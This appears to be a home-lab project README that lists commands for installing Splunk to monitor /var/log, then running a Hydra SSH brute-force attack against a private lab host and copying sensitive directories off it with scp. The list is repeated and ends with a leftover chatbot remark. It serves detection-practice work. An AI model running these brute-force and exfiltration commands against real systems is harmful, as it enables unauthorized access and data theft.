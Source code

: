 
# Commands Used in the Project
### 1. Network Interface Activation

`ifup ens33`

<h3>Purpose: </h3> Activates the network interface named "ens33" and initiates the process of obtaining an IP address through DHCP or static configuration.

2. Splunk Enterprise Download
bash
Copy code
wget -O splunk-9.2.1-78803f08aabb-Linux-x86_64.tgz 'download_link'
Purpose: Downloads the Splunk Enterprise installation package from the Splunk website.

3. Extracting Splunk Package
bash
Copy code
tar -xvzf splunk-9.2.1-78803f08aabb-Linux-x86_64.tgz -C /opt
Purpose: Extracts the downloaded Splunk package into the /opt directory.

4. Starting Splunk
bash
Copy code
/opt/splunk/bin/splunk start --accept-license
Purpose: Starts Splunk Enterprise and accepts the license agreement.

5. Adding Splunk Monitor
bash
Copy code
/opt/splunk/bin/splunk add monitor /var/log
Purpose: Adds the /var/log directory to the Splunk real-time monitoring system.

6. Hydra Brute Force Attack
bash
Copy code
hydra -L username.txt -P password.txt -f ssh://192.168.80.161
Purpose: Uses Hydra to perform a brute force attack against the SSH service of the target machine.

7. SCP Command for Data Exfiltration
bash
Copy code
scp -r lunar@192.168.80.161:/home/lunar/Client_Projects /local/destination
scp -r lunar@192.168.80.161:/home/lunar/Personal_Doc /local/destination
Purpose: Downloads sensitive directories from the compromised machine to the local system using SCP.

Command Titles and Their Purposes
Network Interface Activation

bash
Copy code
ifup ens33
Purpose: To activate the network interface and obtain an IP address.

Downloading Splunk Enterprise

bash
Copy code
wget -O splunk-9.2.1-78803f08aabb-Linux-x86_64.tgz 'download_link'
Purpose: To download the Splunk Enterprise installation package.

Extracting Splunk Package

bash
Copy code
tar -xvzf splunk-9.2.1-78803f08aabb-Linux-x86_64.tgz -C /opt
Purpose: To extract the downloaded Splunk package.

Starting Splunk Enterprise

bash
Copy code
/opt/splunk/bin/splunk start --accept-license
Purpose: To start Splunk Enterprise and accept the license agreement.

Adding Directory to Splunk Monitor

bash
Copy code
/opt/splunk/bin/splunk add monitor /var/log
Purpose: To add the /var/log directory to the Splunk monitoring system.

Performing Brute Force Attack with Hydra

bash
Copy code
hydra -L username.txt -P password.txt -f ssh://192.168.80.161
Purpose: To perform a brute force attack against the SSH service of the target machine.

Data Exfiltration Using SCP

bash
Copy code
scp -r lunar@192.168.80.161:/home/lunar/Client_Projects /local/destination
scp -r lunar@192.168.80.161:/home/lunar/Personal_Doc /local/destination
Purpose: To download sensitive directories from the compromised machine to the local system.

You can format and upload this list to your GitHub repository as a markdown file to showcase your command-line expertise and project workflow.
